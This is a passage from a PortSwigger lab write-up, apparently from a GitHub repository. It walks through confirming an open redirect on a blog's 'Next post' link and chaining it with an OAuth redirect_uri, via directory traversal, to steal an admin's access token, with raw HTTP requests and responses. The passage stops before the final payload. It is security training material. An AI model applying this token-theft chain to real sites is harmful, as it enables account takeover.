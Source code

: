 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b18ff067-d52b-4107-8230-92fda78a6d32)

## Overview :

## Solution :

### Openredirect vulnerability in the same domain -

When we click on a blog post, we have the option at the bottom of the page called **Next post**. This has a **openredirect vulnerability.** On clicking the button, a *Get* request is sent as follows,

```http
GET /post/next?path=/post?postId=5 HTTP/2
Host: 0a5d001e03be99e881e248de00430091.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: https://0a5d001e03be99e881e248de00430091.web-security-academy.net/post?postId=4
Cookie: session=heLQIqwBKAilLmexsIGfhl0l7Kj5YlH2
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
```
On changing the path patth parameter to **https://google.com** , we have a redirect to google.com. This confirms that it is vulnerable to openredirect.

```http
HTTP/2 302 Found
Location: http://google.com
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/5be335f2-1c1d-4eb6-ba5f-496e663c7b3e)

### Chaining Openredirect with Oauth to leak tokens -

We can login to the site via social media. The authorization request sent is as follows.

```http
GET /auth?client_id=h7r0ea0g4w5u7fp3o7f8g&redirect_uri=https://0a5d001e03be99e881e248de00430091.web-security-academy.net/oauth-callback&response_type=token&nonce=-1658510961&scope=openid%20profile%20email HTTP/1.1
Host: oauth-0aa300b503cb99fd81f0468d02cf0006.oauth-server.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
```

Here if we give the **redirect_uri=https://google.com**, we get a server error.

```http
HTTP/2 400 Bad Request
X-Powered-By: Express
Pragma: no-cache
Cache-Control: no-cache, no-store
Content-Type: text/html; charset=utf-8
Date: Sat, 23 Sep 2023 20:05:44 GMT
Keep-Alive: timeout=5
Content-Length: 2190
```
This means there is some kind of pretection to prevent stealing of tokens.

We can chain it using the openredirect vuln we found earlier to exploit this & steal admin's token.

The redirect_uri value is `redirect_uri=https://0a5d001e03be99e881e248de00430091.web-security-academy.net/oauth-callback` in the authorization request.

- If we give `redirect_uri=https://0a5d001e03be99e881e248de00430091.web-security-academy.net/oauth-callback/post/next?path=google.com`, we still don't get an redirect.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/74cb4bdd-6997-4775-8873-369fbc4f520e)

> This is because the uri for the next parameter should be `website.com/post/next?path=` and not `website.com/oauth-callback/post/next?path=` as this is invalid uri !

### Directory traversal -

Now we can use directory traversal to traverse up a directory & try to see if redirect works.


